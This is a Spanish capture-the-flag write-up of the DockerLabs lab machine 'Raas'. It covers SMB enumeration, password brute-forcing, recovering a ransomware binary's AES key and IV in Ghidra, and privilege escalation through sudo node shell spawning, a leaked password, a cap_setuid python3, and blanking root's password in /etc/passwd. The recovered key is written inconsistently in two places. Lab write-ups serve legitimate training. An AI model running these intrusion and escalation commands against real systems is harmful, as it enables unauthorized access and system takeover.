



Máquina **Raas** de [DockerLabs](https://dockerlabs.es)

Autor: [darksblack](https://github.com/DarksBlackSk)

Dificultad: Dificil


# Reconocimiento

Comenzaremos con un escaneo de `nmap`:

```css
nmap -p- -sC -sV -sS --open --min-rate 5000 -Pn -n -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Mon Jan  6 20:55:01 2025 as: nmap -p- -sC -sV -sS --open --min-rate 5000 -Pn -n -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000011s latency).
Scanned at 2025-01-06 20:55:01 -03 for 18s
Not shown: 65532 closed tcp ports (reset)
PORT    STATE SERVICE     REASON         VERSION
22/tcp  open  ssh         syn-ack ttl 64 OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 07:ba:24:3e:67:86:71:2c:1c:f9:c2:65:0d:b0:f2:42 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBiCnhsWR8QjFGjyZWrlbYO8EblinSNA5N7E4tgIfX9KCZhkjjqPYA74Zs8G3bfsF/80XZbG8AqkUrH2wNkVFpk=
|   256 e2:7a:9a:9d:58:2a:07:05:5f:e9:01:b6:7e:0d:e7:da (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILySsfVMVKQ4kse66WRJkVdes0HTknsXPf0ggDzn89i4
139/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
445/tcp open  netbios-ssn syn-ack ttl 64 Samba smbd 4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2025-01-06T23:55:16
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 21783/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 57453/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 58197/udp): CLEAN (Failed to receive data)
|   Check 4 (port 52786/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: -1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan  6 20:55:19 2025 -- 1 IP address (1 host up) scanned in 18.44 seconds
```

Tenemos 3 puertos abiertos en un `Ubuntu`:

•`Puerto 22: OpenSSH 9.6p1`

•`Puerto 139: Samba smbd 4`

•`Puerto 445: Samba smbd 4`

#### Smb enumeration

Comenzamos intentando enumerar los recursos compartidos con `smbclient`:

```css
smbclient -L //172.17.0.2/ -N
```

```ruby
	Sharename       Type      Comment
	---------       ----      -------
	print$          Disk      Printer Drivers
	ransomware      Disk      
	IPC$            IPC       IPC Service (dockerlabs server (Samba, Ubuntu))
```

Como vemos en el resultado, podemos enumerarlo pero no tenemos acceso a ninguno, pero podríamos intentar usar `rpcclient` para obtener usuarios:

```css
rpcclient -U '' -N 172.17.0.2
```

una vez dentro ejecutamos `enumdomusers`:

```css
rpcclient $> enumdomusers
user:[patricio] rid:[0x3e8]
user:[calamardo] rid:[0x3ea]
user:[bob] rid:[0x3e9]
rpcclient $>
```

teniendo la lista de usuarios, usaremos `netexec` para realizar fuerza bruta e intentar obtener las credenciales de algún usuario:

```css
netexec smb 172.17.0.2 -u users.txt -p /opt/rockyou.txt  --ignore-pw-decoding
```

```css
SMB         172.17.0.2      445    DOCKERLABS       [+] DOCKERLABS\patricio:basketball
```

tenemos unas credenciales para el smb: patricio:basketball

por lo que si enumeramos con las nuevas credenciales, veremos que tenemos acceso al recurso "ransomware":

```css
smbmap -u 'patricio' -p 'basketball' -H 172.17.0.2
```

```css
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	print$                                            	READ ONLY	Printer Drivers
	ransomware                                        	READ ONLY	
	IPC$                                              	NO ACCESS	IPC Service 
```

Procederemos entrando a través de `smbclient` de la siguiente manera:

```css
smbclient //172.17.0.2/ransomware -U 'patricio%basketball'
```

 Vemos varios archivos al ejecutar `dir`, por lo que pasaremos todos directamente a nuestra máquina:

```css
recurse ON
prompt OFF
mget *
```

***Nota.txt:***

```css
estuve analizando el ransomware que el estupido de bob ejecuto para ver si lograba desencriptar sus archivos 
pero hasta ahora no he conseguido nada, me esta costando mas de lo que pensaba, asi que comparto el binario 
para que calamardo vea si puede hacer algo por bob.

Calamardo, si logras conseguir algo, lo mas urgente es que desencriptes el archivo "private.txt" por favor
```

Como dice la nota, vemos que nos han dejado un binario al cual probablemente tengamos que hacerle `Reverse engineering` con `ghidra`. Cargamos el binario dentro de `ghidra` y comenzamos a analizarlo:



viendo la función `main` ya podemos ver un poco del flujo del binario, el cual es el siguiente:

```css
1. Revisa el hostname y comprueba que sea "dockerlabs"
2. Revisa la existencia de 2 archivos: /opt/ak.pk1 /bin/12bn
3. Si todas las comprobaciones anteriores son correctas, llama a la funcion "encrypt_files_in_directory", a la cual se le pasan 3 parametros:
	1. "/home"
	2. local_428
	3. local_438
4. En caso de que no se cumplan las comprobaciones iniciales, imprime un mensaje de error: "Ten cuidado con lo que ejecutas!".
```

viendo esto, me pongo a analizar la función de encriptar y encuentro cosas interesantes, como el algoritmo de cifrado el cual es "AES-256-CBC". A este algoritmo es necesario pasarle 2 cosas importantes:

```
1. Clave 
2. IV
```

la clave debe tener 32 bytes y el IV debe tener 16, sabiendo esto podemos hacer la búsqueda. Como vemos, a la función "encrypt_files_in_directory" se le pasan 3 parámetros, los cuales son el directorio que se va a encriptar, la clave y el IV. Entonces, ya tenemos el IV, ya que "local_438" hace referencia a "local_438" y "local_430" juntos, y el valor de estos seria:

```css
1234567890123456
```

También podemos ver que se le pasa "local_428", la cual es una variable que contiene el resultado de la ejecución de la función "recon", el cual es el siguiente:

```css
y0qpfjxbd79047929ew0omqad3f4gscl
```

por lo que ya tenemos la clave y el IV, ya que "y0qpfjxbd77904929ew0omqad3f4gscl" contiene 32 bytes y "1234567890123456" tiene 16. Finalmente entramos a [CyberChef](https://gchq.github.io/CyberChef/#recipe=AES_Decrypt(%7B'option':'Base64','string':'eTBxcGZqeGJkNzkwNDc5MjlldzBvbXFhZDNmNGdzY2w%3D%3D'%7D,%7B'option':'Base64','string':'MTIzNDU2Nzg5MDEyMzQ1Ng%3D%3D'%7D,'CBC','Hex','Raw',%7B'option':'Hex','string':''%7D,%7B'option':'Hex','string':''%7D)&input=NTcxMTk3NTJiMTBlMWYwNWRjZjc5MzU2M2MwMjI0MTNjMmI2N2ViZjY4NDgyMjdlYWE2NzkyZDk3NmJlCjBmZDUyYzBlNTQ4NTVlZjI5MmIwMjg5NjhiODhjYzc1Njg4Ng) y pasando los datos correctamente nos da el siguiente resultado:


por lo que finalmente podemos entrar en la máquina.

# Intrusión

Entramos a través de ssh de la siguiente manera:

```css
ssh bob@172.17.0.2
```

y ponemos la contraseña "56000nmqpL".

# Escalada de Privilegios

### Bob

Siendo el usuario bob, ejecuto `sudo -l` y veo que puedo ejecutar `node` como el usuario "calamardo", por lo que escalaremos de la siguiente manera:

```css
sudo -u calamardo node -e 'require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

### Calamardo

Luego de revisar un rato, veo que el archivo `.bashrc` de "calamardo" contiene lo siguiente:

```css
# should be on the output of commands, not on the prompt patricio:Jap0n16ydcbd***
```

por lo que tenemos la contraseña de "patricio" para escalar con `su`:

```css
su patricio
```

### Patricio

Si buscamos archivo que pertenezcan a patricio, veremos que se encuentra un `python3` un tanto extraño:

```css
find / -user "patricio" 2>/dev/null | grep -v "proc"
```

```css
/srv/ransom
/srv/ransom/nota.txt
/srv/ransom/private.txt
/srv/ransom/pokemongo
/home/patricio
/home/patricio/.bashrc
/home/patricio/.local
/home/patricio/.local/share
/home/patricio/.local/share/nano
/home/patricio/.profile
/home/patricio/.bash_logout
/home/patricio/.python_history
/home/patricio/.ssh
/home/patricio/.ssh/python3
```

el cual si revisamos con `getcap`, veremos lo siguiente:

```css
python3 cap_setuid=ep
```

y para escalar debemos ejecutar lo siguiente:

```css
~/.ssh/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

Aun que todavía no seremos root al 100%, para hacerlo debemos ejecutar lo siguiente:

```css
sed -i 's/root:x:/root::/g' /etc/passwd && su
```

Una vez tengamos todo ya seremos root.

### Root



Gracias por leer ;)